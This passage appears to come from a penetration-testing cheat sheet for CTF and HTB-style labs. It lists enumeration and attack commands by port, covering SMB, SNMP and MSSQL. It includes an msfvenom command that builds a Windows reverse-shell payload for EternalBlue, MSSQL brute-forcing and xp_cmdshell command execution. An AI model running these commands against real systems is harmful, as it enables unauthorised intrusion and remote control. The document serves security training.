 ```
smbmap -H INSERTIPADDRESS
```

Exploit for Samba before 3.3.11, 3.4.x before 3.4.6, and 3.5.x before 3.5.0rc3, when a writable share exists:

* [Samba 3.4.5 - Symlink Directory Traversal](https://www.exploit-db.com/exploits/33598)
* [Samba Remote Directory Traversal](https://packetstormsecurity.com/files/85957/Samba-Remote-Directory-Traversal.html)
* [CVE-2010-0926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0926)
* See HTB: Lame

If Windows then check for Eternal Blue (MS17-010):

* [MS17-010](https://github.com/worawit/MS17-010)
* See HTB: Blue
* See HTB: Legacy
* Use non-staged payload for zzz_exploit
  * msfvenom -p windows/shell_reverse_tcp LHOST= INSERTIPADDRESS LPORT=1906 -f exe-service -o eternal.exe

```
python checker.py INSERTIPADDRESS
```

[NetBIOS and SMB Penetration Testing on Windows](https://www.hackingarticles.in/netbios-and-smb-penetration-testing-on-windows/)

### Port 161/162 UDP - SNMP


```
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes INSERTIPADDRESS
snmp-check -t INSERTIPADDRESS -c public
```

```
# Common community strings
public
private
community
```

### Port 554 - RTSP


### Port 1030/1032/1033/1038

Used by RPC to connect in domain network. Usually nothing.

### Port 1433 - MSSQL

- Version:

```
use auxiliary/scanner/mssql/mssql_ping

# Last options. Brute force.
scanner/mssql/mssql_login

# Log in to mssql
sqsh -S INSERTIPADDRESS -U sa

# Execute commands
xp_cmdshell 'date'
go
```
